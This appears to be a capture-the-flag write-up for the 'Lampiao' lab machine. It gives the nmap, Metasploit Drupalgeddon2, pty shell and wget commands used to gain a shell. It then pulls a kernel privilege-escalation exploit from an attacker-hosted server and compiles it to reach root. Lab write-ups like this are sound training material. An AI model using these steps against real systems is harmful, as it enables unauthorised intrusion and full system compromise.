 # Lampiao
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A -p- ip_address
```
The full port scan shows a Drupal interface on port 1898

![](images/scan1.png)

Lets fire up metasploit and check if there's an exploit     
```
msf6 > search drupal 7
```
From googling Drupal 7 exploit we find that there's an exploit called **Drupalgeddon2**
Select the one with Drupalgeddon2 => **exploit/unix/webapp/drupal_drupalgeddon2**       
You can check the requirements needed by just typing in     
```
show OPTIONS
```
For setting the parameters use
```
set parameter ip_address/port
```
Set the RHOSTS, RPORTS correctly and don't forget that for LHOSTS you have to enter the ip from the vpn pack and finally enter **exploit** or **run** for metasploit to run the exploit         

![](images/meterpreter1.png)

Use the below command to get a python interactive shell
```
python -c "import pty; pty.spawn(\"/bin/bash\")"
```   

I checked the kernel version on the system      

![](images/kernel.png)      

Googling an exploit for the version I found one on [exploit-db](https://www.exploit-db.com/exploits/40847). I downloaded this file onto my local computer and hosted a python server in that directory to wget onto the target machine.     

I know downloading directly onto the taget machine would have been easier but for some reason it was not connecting to the exploit-db site.

You can setup a local python server using
```
$ python3 -m http.server port
```

Download the file onto the /tmp directory
```
wget http://ip_address:port/40847.cpp
```

Follow the instructions in the C file to run the exploit.   

After compiling and running the file, voila we are root.
The command to compile is given in the exploit cpp file, use that.

![](images/root.png)

Navigate to the root and home directory to find the flags.